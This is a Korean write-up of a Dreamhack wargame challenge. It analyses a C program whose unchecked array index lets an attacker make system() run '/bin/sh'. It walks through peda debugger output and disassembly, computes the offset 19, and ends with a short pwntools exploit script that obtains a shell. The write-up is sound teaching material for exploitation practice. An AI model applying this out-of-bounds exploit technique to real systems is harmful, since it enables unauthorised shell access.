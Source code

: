 # [Dreamhack] out_of_bound 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler() {

    puts("TIME OUT");
    exit(-1);
}

void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main() {
    
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

전역 변수로 char형 변수 name[16]이랑 포인터인 command를 선언한다.

메인 함수를 보면 첫번째로 name에 Admin name을 입력받는다.

그리고 숫자를 입력받고 포인터 배열에 있는 커맨드를 불러와서 system 명령어로 실행시킨다.

scanf에서 idx를 입력받고 sysyem함수에서 command를 불러올때 idx값이 배열의 크기를 넘는지 검사하는 부분이 없기때문에 out of bound 취약점이 발생하는것을 알 수 있다.

name에 “/bin/sh”을 입력하고 idx에 스택에 변수 name이 몇 번째에 있는지 입력해주면 해결될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- Admin name의 위치와 command 배열의 오프셋
- name에서 입력할때 저장되는 주소

디버깅은 peda를 사용했습니다.

### Admin name의 위치와 command 배열의 오프셋구하기

---

Admin name을 입력받는곳에서 aaaa를 입력한 상태이다 .

```nasm
[----------------------------------registers-----------------------------------]
EAX: 0x5 
EBX: 0xf7f9e000 --> 0x229dac 
ECX: 0x804a0ac ("aaaa\n")
EDX: 0x10 
ESI: 0xffffcfb4 --> 0xffffd191 ("/home/zergsung/pwn/dreamhack/out_of_baound/out_of_bound")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0xffffcee8 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0 
ESP: 0xffffcec0 --> 0x0 
EIP: 0x804870d (<main+66>:	add    esp,0x10)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048701 <main+54>:	push   0x804a0ac
   0x8048706 <main+59>:	push   0x0
   0x8048708 <main+61>:	call   0x80484a0 <read@plt>
=> 0x804870d <main+66>:	add    esp,0x10
   0x8048710 <main+69>:	sub    esp,0xc
   0x8048713 <main+72>:	push   0x804881e
   0x8048718 <main+77>:	call   0x80484b0 <printf@plt>
   0x804871d <main+82>:	add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0xffffcec0 --> 0x0 
0004| 0xffffcec4 --> 0x804a0ac ("aaaa\n")
0008| 0xffffcec8 --> 0x10 
0012| 0xffffcecc --> 0x80486ec (<main+33>:	sub    esp,0xc)
0016| 0xffffced0 --> 0xffffcf10 --> 0xf7f9e000 --> 0x229dac 
0020| 0xffffced4 --> 0xf7fbe66c --> 0xf7ffdba0 --> 0xf7fbe780 --> 0xf7ffda40 --> 0x0 
0024| 0xffffced8 --> 0xf7fbeb20 --> 0xf7d8ecc6 ("GLIBC_PRIVATE")
0028| 0xffffcedc --> 0xe4b24e00 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804870d in main ()
```

ECX를 보면 0x804a0ac에 aaaa가 저장되는것을 알 수 있다. 

```nasm
main 함수
0x080486cb <+0>:	lea    ecx,[esp+0x4]
0x080486cf <+4>:	and    esp,0xfffffff0
0x080486d2 <+7>:	push   DWORD PTR [ecx-0x4]
0x080486d5 <+10>:	push   ebp
0x080486d6 <+11>:	mov    ebp,esp
0x080486d8 <+13>:	push   ecx
0x080486d9 <+14>:	sub    esp,0x14
0x080486dc <+17>:	mov    eax,gs:0x14
0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
0x080486e5 <+26>:	xor    eax,eax
0x080486e7 <+28>:	call   0x804867b <initialize>
0x080486ec <+33>:	sub    esp,0xc
0x080486ef <+36>:	push   0x8048811
0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
0x080486f9 <+46>:	add    esp,0x10
0x080486fc <+49>:	sub    esp,0x4
0x080486ff <+52>:	push   0x10
0x08048701 <+54>:	push   0x804a0ac
0x08048706 <+59>:	push   0x0
0x08048708 <+61>:	call   0x80484a0 <read@plt>
0x0804870d <+66>:	add    esp,0x10
0x08048710 <+69>:	sub    esp,0xc
0x08048713 <+72>:	push   0x804881e
0x08048718 <+77>:	call   0x80484b0 <printf@plt>
0x0804871d <+82>:	add    esp,0x10
0x08048720 <+85>:	sub    esp,0x8
0x08048723 <+88>:	lea    eax,[ebp-0x10]
0x08048726 <+91>:	push   eax
0x08048727 <+92>:	push   0x8048832
0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
0x08048731 <+102>:	add    esp,0x10
0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
0x0804873e <+115>:	sub    esp,0xc
0x08048741 <+118>:	push   eax
0x08048742 <+119>:	call   0x8048500 <system@plt>
0x08048747 <+124>:	add    esp,0x10
0x0804874a <+127>:	mov    eax,0x0
0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
0x08048759 <+142>:	je     0x8048760 <main+149>
0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
0x08048763 <+152>:	leave  
0x08048764 <+153>:	lea    esp,[ecx-0x4]
0x08048767 <+156>:	ret    
End of assembler dump.
```

위에 main함수의 108번째줄을 보면 0x804a060에서 가져오는것을 볼수있다.

그럼 (0x804a0ac - 0x804a060)/4 를 해주면 오프셋을 구할 수 있다. 4를 나눠주는이유는 포인터 배열이 하나당 4바이트를 할당하기 때문이다. 

계산해보면 19가 나온다.

### name에 쉘코드 삽입하기

---

c언어 코드를 보면 command 배열이 포인터로 선언되는것을 알수있다. 그렇기 때문에 Admin name에 바로 쉘코드를 삽입하면 그 쉘코드가 16진수로 바뀐주소에 있는값을 가져오기 때문에 오류가 난다. 그렇기 때문에 우리는 먼저 쉘코드가 있을 주소 4바이트를 입력한후 그 주소에 쉘코드를 써주면 된다.

그렇기에 쉘코드는 name의 주소에 name의 주소값을 더한 4바이트 큰 name + 4 에 위치하게 된다. 

그럼 우린입력할때 name주소+4다음 쉘코드를 입력하면 될것이다.

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

#p = remote("host3.dreamhack.games", 9469)
p = process("./oob")

shell = b"/bin/sh"
name = 0x804a0ac

p.recvuntil(b'name:')

payload = p32(name+4) + shell

p.sendline(payload)
p.recvuntil(b'want?:')
p.sendline(b'19')
p.interactive()
```

![Untitled](/%5BDreamhack%5D%20out_of_bound%20%E1%84%91%E1%85%AE%E1%86%AF%E1%84%8B%E1%85%B5/Untitled.png)

쉘이 따진 걸 볼 수 있다.